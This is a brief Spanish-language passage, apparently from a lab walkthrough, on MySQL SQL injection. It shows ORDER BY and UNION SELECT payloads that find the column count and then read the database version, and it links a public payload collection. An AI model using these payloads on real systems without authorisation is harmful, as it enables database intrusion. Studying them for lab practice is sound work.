


Ahora enumeraremos la versión de la base de datos de MySQL



Para ello enumeramos el total de columnas que devuelve la consulta

```c
'ORDER BY 2--+
```

```c
'UNION SELECT null,null--+
```

Luego de tener el numero de consulta podemos ayudarnos de [PayloadsAllTheThings SQL Injection MySQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-default-databases)

Y haciendo la siguiente consulta podemos obtener la versión de la base de datos

```c
UNION SELECT null,concat(version())--+
```


